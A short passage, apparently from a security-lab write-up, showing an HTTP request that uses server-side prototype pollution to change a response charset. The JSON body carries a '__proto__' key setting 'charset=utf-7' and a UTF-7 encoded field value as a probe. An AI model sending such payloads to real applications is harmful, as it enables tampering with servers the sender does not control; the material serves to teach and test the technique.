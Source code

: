 ![img](media/a44ac59d5c53ab703c4801d3ab767406.png)

It is possible to update the charset:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"+AGYAbwBv-","sessionId":"GBF3M0MGldLBwDhhruxk8a4GKGNX5ju0","__proto__":{"content-type": "application/json; charset=utf-7"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
